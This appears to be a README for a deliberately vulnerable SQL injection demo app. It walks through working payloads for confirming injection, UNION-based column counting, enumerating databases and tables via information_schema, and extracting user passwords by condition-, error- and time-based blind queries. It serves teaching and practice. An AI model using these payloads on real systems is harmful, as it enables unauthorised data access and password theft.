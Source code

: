 # SQL Injection Demo

Application that simulates a search field which is vulnerable to SQL Injection.
It shows the results directly from the database without filtering or validating.

## Example Commands

Below are some examples of commands we can run on this demo to test different SQL injection techniques.

### Test if field is injectable

```sql
'; -- -
```

### Return all entries

```sql
' OR TRUE; -- -
```

### UNION with another table

This example will produce an error if the number of SELECTed properties in the second query is different than the first.

```sql
' UNION SELECT * FROM USERS; -- -
```

We can test how many properties are being selected by attempting to select an increasing number of properties. To help with that, we can select empty strings ('') to increase the property count.

```sql
-- This will produce an error
' UNION SELECT '' FROM USERS; -- -
```

```sql
-- This will produce an error
' UNION SELECT '','' FROM USERS; -- -
```

```sql
-- This will succeed
' UNION SELECT '','','' FROM USERS; -- -
```

### Finding table names

If we don't know the names of any tables on the system, we can query the `information_schema.tables` table. The `table_name` property provides the name of the table and the `table_schema` property provides the name of the database it is part of.

Remember we have to respect the number of properties being selected to match the original query.

```sql
' UNION SELECT table_name, table_schema, '' FROM information_schema.tables; -- -
```

If we know the name of the database, we can query just for the tables on that database.

```sql
' UNION SELECT table_name, table_schema, '' FROM information_schema.tables WHERE table_schema = "DB"; -- -
```

### Finding the name of the database

If we don't know the name of the database, we can use the `database()` function to retrieve the name of the current database.

```sql
' UNION SELECT table_name, table_schema, '' FROM information_schema.tables WHERE table_schema = database(); -- -
```

To list the names of all databases we can query the `information_schema.schemata` table.

```sql
' UNION SELECT schema_name, '', '' FROM information_schema.schemata; -- -
```

Otherwise, we can query the same `information_schema.tables` table as before using the `DISTINCT` keyword.

```sql
' UNION SELECT DISTINCT table_schema, '', '' FROM information_schema.tables; -- -
```

It is worth noting that in this second example we are only getting the names of the databases that contain at least one table.

### Blind Query for Password (Condition-based)

If we manage to get the name of one of the users, we can try to guess their password blindly using conditionals. If the username and password combination is correct, we will see the search results as usual.

```sql
-- This is the correct username/password combination
' AND (SELECT 1 FROM USERS WHERE NAME="user1" AND PASSWORD="password1") = 1; -- -
```

If the combination is wrong, we will get no results.

```sql
-- This is the incorrect username/password combination
' AND (SELECT 1 FROM USERS WHERE NAME="user1" AND PASSWORD="not_password1") = 1; -- -
```

### Blind Query for Password (Error-based)

For our error-based query we will be causing an error by performing a SELECT that will return more than one row. Because we have multiple rows, it is unclear how to perform the conditional `values = 'a'`, causing an error.

```sql
' AND (SELECT CASE WHEN SUBSTRING((SELECT PASSWORD FROM USERS WHERE NAME = 'user1'), 1, 1) > 'g' THEN (select table_name from information_schema.tables) ELSE 'a' END) = 'a'; -- -
```

### Blind Query for Password (Time-based)

```sql
' AND (IF (SUBSTRING((SELECT PASSWORD FROM USERS WHERE NAME = 'user1'), 1, 1) > 'g', SLEEP(1), 'a')) = 'a'; -- -
```
